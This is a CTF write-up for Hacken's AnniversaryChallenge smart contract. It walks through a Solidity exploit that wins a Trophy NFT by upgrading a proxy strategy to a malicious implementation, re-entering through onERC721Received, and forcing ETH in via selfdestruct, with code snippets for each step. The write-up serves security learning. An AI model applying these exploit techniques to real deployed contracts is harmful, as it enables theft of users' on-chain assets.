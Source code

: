
# Hacken AnniversaryChallenge CTF Write-Up

## Overview

I had a very fun time doing this CTF but unfortunately due to time constraints and other private audit bookings I couldn't apply for the Position before the deadline

This CTF challenge from Hacken revolves around exploiting the `AnniversaryChallenge` contract to claim the Trophy NFT (Token ID: 1). The constraints are:
- Executing the exploit in a single transaction.
- No modifications to the `setUp()` function.
- Avoiding the use of `deal()` or `vm.deal()`.

The exploit utilizes the upgradeable strategy pattern in the contract to inject malicious behavior, enabling bypassing of validations and securing the Trophy NFT.

---

## Target Contract: AnniversaryChallenge

The `AnniversaryChallenge` contract employs an upgradeable strategy via the ERC1967 proxy pattern. Key features include:

1. **Upgradeable Strategy:**
   - The `upgradeTo(address newImplementation)` function enables the owner to dynamically modify the logic of the `SimpleStrategy` contract.

2. **Trophy NFT Claiming:**
   - The `claimTrophy(address receiver, uint256 value)` function allows claiming the Trophy NFT. Key checks include:
     - Ensuring the receiver implements the `IERC721Receiver` interface.
     - Validating that the NFT can be minted or transferred without errors.

3. **Catch Block Handling:**
   - If certain conditions fail during `claimTrophy`, error-handling logic is triggered, potentially transferring the Trophy NFT under specific conditions.

---

## Exploit Strategy

### Observations
1. **Upgradeable Strategy Vulnerability:**
   - The `upgradeTo()` function allows introducing malicious behavior into `SimpleStrategy` to exploit internal logic.

2. **Key Conditions in `claimTrophy`:**
   - `msg.sender` must be an externally owned account (EOA).
   - The contract balance must be zero.
   - The `usdcAddress()` in `SimpleStrategy` must match the actual USDC contract.
   
```solidity
       require(msg.sender.code.length == 0, "No contractcs.");
        require(address(this).balance == 0, "No treasury.");
        require(simpleStrategy.usdcAddress() == 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, "Only real USDC.");
```

3. **Catch Block Execution:**
   - If `externalSafeApprove` or `deployFunds` fails, the contract:
     - Transfers the Trophy NFT to the receiver.
     - Ensures the contract’s balance increases (`require(address(this).balance > 0 wei)`).

---

## Exploit Flow

1. **Deploy Malicious Strategy:**
   - Deploy a `MaliciousStrategy` to override `SimpleStrategy`, deliberately causing `deployFunds` to revert:
     ```solidity
     function _upgradeSimplyStorage() private {
         MaliciousSimpleStrategy maliciousSimpleStrategy = new MaliciousSimpleStrategy();
         challenge.simpleStrategy().upgradeTo(address(maliciousSimpleStrategy));
     }
     ```

2. **Trigger Trophy NFT Transfer:**
   - Call `claimTrophy` with the receiver set to a malicious contract:
     ```solidity
     function _executeCall() private {
         challenge.claimTrophy(address(nftReceiver), 1 wei);
         challenge.claimTrophy(address(nftReceiver), 1 wei);
     }
     ```

3. **Re-enter with `onERC721Received`:**
   - Use `onERC721Received` to manipulate state by forcefully sending ETH to the `AnniversaryChallenge`:
     ```solidity
     function onERC721Received(
         address operator,
         address from,
         uint256 tokenId,
         bytes calldata data
     ) external returns (bytes4) {
         new Force{value: 1}(from);
         ERC721(msg.sender).safeTransferFrom(address(this), owner, tokenId);
         return IERC721Receiver.onERC721Received.selector;
     }
     ```

4. **Force ETH to the Contract:**
   - Deploy `Force.sol` to send ETH forcefully:
     ```solidity
     constructor(address _beneficiary) payable {
         selfdestruct(payable(_beneficiary));
     }
     ```

5. **Bypass Final Check:**
   - The forced ETH transfer passes the `require(address(this).balance > 0 wei)` check, securing the Trophy NFT.

---

## Steps to Run the Exploit

### Prerequisites:
- A local Ethereum development environment (e.g., Hardhat or Foundry).
- Installed dependencies with the package manager.
- Ensure the test suite and `AnniversaryChallenge` contract are deployed correctly.

### Execution:
1. Fork the Ethereum mainnet at the specified block:
   ```bash
   forge test --fork-url https://eth-mainnet.g.alchemy.com/v2/<YOUR_ALCHEMY_KEY> --fork-block-number 20486120
   ```

